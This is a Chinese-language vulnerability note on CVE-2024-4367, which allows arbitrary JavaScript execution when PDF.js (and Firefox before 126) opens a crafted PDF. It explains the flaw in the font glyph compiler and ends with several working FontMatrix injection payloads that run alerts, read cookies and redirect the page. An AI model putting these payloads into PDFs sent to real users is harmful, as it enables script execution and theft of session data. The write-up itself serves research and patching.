 ```yaml
---
category:
  - 网络安全
  - 钓鱼
tags:
  - PDF
  - PDF阅读器漏洞
---
```


# CVE-2024-4367-PDF.js中任意JavaScript执行

> [(1) X 上的 Thomas Rinsma：“Just released the write-up for CVE-2024-4367, a bug I found recently in PDF.js (and hence in Firefox), resulting in arbitrary JavaScript execution when opening a malicious PDF. https://t.co/sex6fR0xHS” / X](https://x.com/thomasrinsma/status/1792503111317119185)
>
> [CVE-2024-4367 - Arbitrary JavaScript execution in PDF.js — Codean Labs](https://codeanlabs.com/blog/research/cve-2024-4367-arbitrary-js-execution-in-pdf-js/)
>
> [Arbitrary JavaScript execution upon opening a malicious PDF · Advisory · mozilla/pdf.js · GitHub](https://github.com/mozilla/pdf.js/security/advisories/GHSA-wgrm-67xf-hhpq)
>
> [GitHub - LOURC0D3/CVE-2024-4367-PoC: CVE-2024-4367 & CVE-2024-34342 Proof of Concept](https://github.com/LOURC0D3/CVE-2024-4367-PoC)
>
> [GitHub - s4vvysec/CVE-2024-4367-POC: CVE-2024-4367 arbitrary js execution in pdf js](https://github.com/s4vvysec/CVE-2024-4367-POC)
>
> [知识星球 | 深度连接铁杆粉丝，运营高品质社群，知识变现的工具 (zsxq.com)](https://wx.zsxq.com/dweb2/index/topic_detail/1522484211581222)

 PDF.js 是由 Mozilla 维护的基于 JavaScript 的 PDF viewer

CVE-2024-4367允许攻击者在打开恶意 PDF 文件后立即执行任意 JavaScript 代码

---

## 影响范围

所有 Firefox 用户 (<126)，因为 Firefox 使用 PDF.js 来显示 PDF 文件

也会严重影响（间接）许多使用 PDF.js 进行预览功能的基于 Web 和 Electron 的应用程序

---

> 实测可复现漏洞版本:
>
> ![image-20240522104457591](http://cdn.ayusummer233.top/DailyNotes/202405241346924.png)
>
> ![image-20240522104518122](http://cdn.ayusummer233.top/DailyNotes/202405241346242.png)
>
> 下载 firefox 旧版本:
>
> - [安装 Firefox 以前的版本 | Firefox 帮助 (mozilla.org)](https://support.mozilla.org/zh-CN/kb/安装 Firefox 以前的版本)
> - [Directory Listing: /pub/firefox/releases/ (mozilla.org)](https://ftp.mozilla.org/pub/firefox/releases/)

---

## 介绍

PDF.js 有两种常见的用例

- 它是 Firefox 内置的 PDF 查看器

- 它被捆绑到一个名为 `pdfjs-dist` 的 Node 模块中，根据 NPM，每周下载量约为 270 万次

  包括但不限于 Git 托管平台到笔记应用程序都用它来提供 PDF 预览功能

  > [pdfjs-dist - npm (npmjs.com)](https://www.npmjs.com/package/pdfjs-dist)
  >
  > ![image-20240521170324479](http://cdn.ayusummer233.top/DailyNotes/202405241346682.png)

---

## Glyph rendering(字形渲染)

这个漏洞和 PDF 的 JavaScript 脚本功能本身无关. 这是在对字体渲染代码的特定部分的疏忽造成的漏洞

PDF 中的字体可以有多种不同的格式，其中一些格式比其他格式更晦涩。

对于 TrueType 等现代格式，PDF.js 主要遵循浏览器自己的字体渲染器。

在其他情况下，它必须手动将字形（即字符）描述转换为页面上的曲线。为了优化性能，它为每个字形预编译了路径生成器函数。

如果支持的话，可以通过创建一个 JavaScript `Function` 对象来完成，该对象的主体 ( `jsBuf` ) 包含组成路径的指令

```js
// If we can, compile cmds into JS for MAXIMUM SPEED...
if (this.isEvalSupported && FeatureTest.isEvalSupported) {
  const jsBuf = [];
  for (const current of cmds) {
    const args = current.args !== undefined ? current.args.join(",") : "";
    jsBuf.push("c.", current.cmd, "(", args, ");\n");
  }
  // eslint-disable-next-line no-new-func
  console.log(jsBuf.join(""));
  return (this.compiledGlyphs[character] = new Function(
    "c",
    "size",
    jsBuf.join("")
  ));
}
```

从攻击者的角度来看，如果我们能够以某种方式控制这些 `cmds` 进入 `Function` 主体并插入我们自己的代码，那么一旦这样的字形出现，它就会被执行

---

```js
/FontMatrix [1 2 3 4 5 (1\); alert\('origin: '+window.origin+'\\npdf url: '+window.PDFViewerApplication.url)]

/FontMatrix [1 2 3 4 5 (0\); alert\('foobar')]
  
<<
  /BaseFont /SNCSTG+CMBX12
  /FontDescriptor 7 0 R
  /Subtype /Type1
  /FontMatrix [1 2 3 4 5 (0\); alert\('foobar')]
  /Type /Font
>>
      
/FontMatrix [1 2 3 4 5 (0\); location.href=\('https://www.baidu.com')]

/FontMatrix [1 2 3 4 5 (1\); alert\('document.domain: '+window.document.domain+'\\nlocation: '+window.location+'\\ncookie: '+window.document.cookie)]
```

[知识星球 | CVE-2024-4367](https://wx.zsxq.com/dweb2/index/topic_detail/1522484211581222) 中目前似乎还没看到什么更实际的利用方式

---

